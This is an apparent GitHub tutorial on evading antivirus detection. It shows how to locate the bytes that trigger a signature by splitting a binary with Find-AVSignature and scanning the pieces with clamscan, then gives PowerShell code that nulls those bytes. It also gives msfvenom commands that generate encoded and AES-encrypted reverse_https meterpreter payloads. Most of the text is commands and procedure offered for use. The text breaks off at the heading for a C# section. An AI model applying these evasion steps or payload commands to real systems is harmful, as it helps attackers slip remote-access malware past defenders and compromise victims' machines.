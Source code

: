 # Overview

An AV Software can integrate the following methods into detecting malicious files :-

1. Signature Based Scanning
   - Often relies on SHA-1 or MD5 hashes.
   - It also uses certain unique byte sequences from malicious files for detection.
2. Behavioral Analysis
   - Runs file and a sandboxed environment
   - New approach uses Cloud Computing and Artificial Intelligence for better accuracy

For our testing we will rely on :-

- clamav command line tool
- Avira AV
- Antiscan.me
- Virustotal (This distributes samples to AV vendors) (Use with caution)

&nbsp;

# Signature Based Detection

Initial signature based scans can be bypassed by just changing a few bytes of the file.

Scanning based on byte strings are much harder to bypass as we have to find the exact set of bytes which trigger the AV.

To bypass Signature based scans which look for particular byte strings in the file, we can search for such bytes which trigger the AV and replace them with an alternative.

To do this, we can split the binary into many pieces and perform scans on each one of them. We can recursively do this to replace all the bytes which trigger the AV with a null byte. We also have to set the last byte to 0xFF to bypass the complete file getting detected.

To split the binary, we can use the powershell tool **Find-AVSignature**. Example command :-

    Find-AVSignature -StartByte 0 -EndByte max -Interval 100 -Path mal.exe -OutPath mal_1 -Verbose -Force

Explanation :

- We first have to import the module onto our current powershell session using the command . .\Find-AVSignature.ps1
- The StartByte and Endbyte specify the range through which we want to split the binary, here it is from 0 to max.
- The Interval argument sets the intervals in which the file should be split.
- The OutPath specifies the directory to which the split binaries should be stored

We can then use clamscan on this directory to see which file triggers the AV. Example command :-

    PS C:> .\clamscan.exe mal_1

We can then slowly narrow our search and reduce the interval as we go. To replace the bytes we can use the powershell command :-

    $bytes = [System.IO.File]::ReadAllBytes("mal.exe")
    $bytes[1111] = 0
    [System.IO.File]::WriteAllBytes("mal_mod.exe", $bytes)

Explanation :

- Suppose at byte 1111, the AV was getting triggered.
- We would first convert the whole binary into bytes and store it in a variable
- We then would replace the location with a 0
- Now we would write the bytes into a new file
- Splitting and passing this through clamscan again, the byte would not trigger the AV.

&nbsp;

# Bypassing AV with Metasploit

## Encoders

We can use encoders in metasploit while creating our payload to bypass Signature Based Detection. These are a wide range encoders offered by metasploit. We can list all the encoders using this command :-

    msfvenom -l encoders

_shikata_ga_nai_ is a famous encoder, but it is only made for 32-bit systems. For 64-bit systems we can use _zutto_dekiro_ which is similar to _shikata_ga_nai_

The command for the above encoders are given below :

    msfvenom -p windows/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f exe -o met_shikata.exe

    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -e x64/zutto_dekiru -f exe -o met_zekiro.exe

> We can also add the **-i** option to specify the number of iterations the encoder will run.
> The **-x** option can be added to used to give a template to the msfvenom command.

**NOTE** : As of now, encoders are mainly used to get around bad characters in a shellcode and serve little purpose in bypassing AntiVirus due to their ineffectiveness against the modern AV solutions.

> RESOURCES
>
> - https://danielsauder.com/2015/08/26/an-analysis-of-shikata-ga-nai/
> - https://www.boozallen.com/insights/cyber/tech/zutto-dekiru-encoder-explained.html
> - https://www.rapid7.com/blog/post/2012/12/14/the-odd-couple-metasploit-and-antivirus-solutions/

&nbsp;

## Encrypters

We can list the encrypters offered by metasploit with the following command:

    msfvenom -l encrypt

A sample command using an encrypter :

    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> --encrypt aes256 --encrypt-key <RANDOM KEY> -f exe -o mal_aes.exe

This will however get detected due to it's static decryption process. Heurestic scans can easily find out that the file contains malware.

> RESOURCES
>
> - https://www.offensive-security.com/metasploit-unleashed/msfvenom/
> - https://www.rapid7.com/blog/post/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/
> - https://www.rapid7.com/blog/post/2019/11/21/metasploit-shellcode-grows-up-encrypted-and-authenticated-c-shells/

&nbsp;

# Bypasssing AV with C#
